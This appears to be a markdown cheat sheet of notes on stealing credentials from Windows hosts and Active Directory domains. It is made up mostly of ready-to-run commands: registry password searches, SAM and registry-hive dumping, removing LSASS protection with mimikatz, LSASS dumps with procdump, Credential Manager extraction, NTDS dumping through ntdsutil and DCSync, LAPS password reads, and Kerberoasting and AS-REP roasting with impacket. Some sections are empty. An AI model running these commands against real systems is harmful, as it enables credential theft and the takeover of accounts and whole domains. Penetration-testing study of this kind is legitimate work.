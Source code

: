 # 1-Find Clear-Text Files:
- **Powershell History**:
```
Path: C:\<UserName>\USER\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
- **Registry: find password keyword**:
```
c:\Users\user> reg query HKLM /f password /t REG_SZ /s
C:\Users\user> reg query HKCU /f password /t REG_SZ /s
```
- **Also look for:**
  - Database Files
  - Memory Dump
  - Active Directory.Users' description
  - Network Sniffing

# 2-Key Logging

# 3-SAM Database:
  - Path: c:\Windows\System32\config\sam
  - we can not read it and copy it
  - SAM database is encrypted either with RC4 or AES.we need a decryption key which is also stored in the files system in **c:\Windows\System32\Config\system** 
    ### how to Dump:
    - 1-MetaSploit.hashdump
    - 2-Microsoft Volume shadow copy:
        ```
        wmic shadowcopy call create Volume='C:\'
        #find where it is stored
        vssadmin list shadows
        copy \\path\to\volume\sam  \\somewhere-Else
        copy \\path\to\volume\\system \\soemwhere-Else
        ```
# 4-Registry Hives:
```
reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg
reg save HKLM\system C:\users\Administrator\Desktop\system-reg
#Extract
secretsdump.py -sam /tmp/sam-reg -system /tmp/system-reg LOCAL
```

# 5-Dump LSASS(cached credentials):
  - **Protected LSASS**:
    - disable from Registry:
    ```
    HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa
    ```
    - disable with mimikatz:
    ```
    mimikatz # !+
    mimikatz # !processprotect /process:lsass.exe /remove
    ```

  - 5.1-Using GUI with Task-Manager
  - 5.2-Using procdump
  ```
  procdump.exe -accepteula -ma lsass.exe c:\<somewhere>
  ```
  - 5.3-mimikatz
  ```
  mimikatz # sekurlsa::logonpasswords
  ```
  
# 6-Windows Credential Manager:
  - Stored Credentials in system:
  ```
  vaultcmd /list
  VaultCmd /listproperties:"Web Credentials"
  VaultCmd /listcreds:"Web Credentials"
  VaultCmd /listproperties:"Windows Credentials"
  VaultCmd /listcreds:"Windows Credentials"
  cmdkey /list
  runas /savecred /user:<Domain>\Username cmd.exe
  mimikatz # sekurlsa::credman
  ```
    - The VaultCmd is not able to show the password. we can use this tools [Get-WebCredentials.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1)
      ```
      Import-Module C:\Tools\Get-WebCredentials.ps1
      Get-WebCredentials
      ```
# 7-NTDS:
  - **Local**:
    - we need the following files:
        - C:\Windows\NTDS\ntds.dit
        - C:\Windows\System32\config\SYSTEM
        - C:\Windows\System32\config\SECURITY
    - with Powershell:
    ```
    #Dump
    powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
    #Extract
    secretsdump.py -security path/to/SECURITY -system path/to/SYSTEM -ntds path/to/ntds.dit local
    ```
  - **Remote(DCSync)**:
    ```
    #dump NTDS
    lsadump::dcsync /domain:<DomainName> /all
    #Extract just NTDS data
    secretsdump.py -just-dc <DomainName>/<AD_Admin_User>@MACHINE_IP 
    #Extract NTLM hashes
    secretsdump.py -just-dc-ntlm <DomainName>/<AD_Admin_User>@MACHINE_IP
    ```
# 8-LAPS(im not understand it completely):
- GPP:
  - **Microsoft implemented a method to change local administrator accounts across workstations using Group Policy Preferences (GPP)**
  - GPP is a tool that allows administrators to create domain policies with embedded credentials.
  - Once the GPP is deployed, different XML files are created in the SYSVOL folder.
  - The issue was the GPP relevant XML files contained a password encrypted using AES-256 bit encryption, but Microsoft somehow published its private key
  - Since Domain users can read the content of the SYSVOL folder, it becomes easy to decrypt the stored passwords
- LAPS:
   - LAPS uses **admpwd.dll** to change the local administrator password and update the value of **ms-mcs-AdmPwd**
   - **ms-mcs-AdmPwd** attribute **contains** a clear-text **password** of the local administrator
   ```
   #check if LAPS is installed or not
   dir "C:\Program Files\LAPS\CSE"
   #check the available commands to use for AdmPwd cmdlets 
   Get-Command *AdmPwd*
   #find the right OU
   Find-AdmPwdExtendedRights -Identity *
   #login to proper user and:
   Get-AdmPwdPassword -ComputerName <computerName>
   ```
# 9-Kerberoasting:
  - In order for this attack to work, an adversary must have access to SPN (Service Principal Name) accounts such as IIS User, MSSQL, etc. The Kerberoasting attack involves requesting a Ticket Granting Ticket (TGT) and Ticket Granting Service (TGS).
    ```
    #look for SPN
    impacket/examples/GetUserSPNs.py -dc-ip MACHINE_IP <DomainName>/User
    #we can send a single request to get a TGS ticket for the target user that has SPN, since TGS is encrypted with target-user credentials we can crack it and Done!
    impacket/examples/GetUserSPNs.py -dc-ip MACHINE_IP <DomainName>/User -request-user Target-user
    ```
    
# 10-AS-REP Roasting:
  - First We need to find users with "Do not require Kerberos preauthentication" attribute
  - if we find any, it enables the attacker to retrieve password hashes for AD users
  ```
  impacket/examples/GetNPUsers.py -dc-ip MACHINE_IP <DomainName>/ -usersfile /tmp/users.txt
  ```
  
  
# 11-LLMNR/NBNS Poisoning  
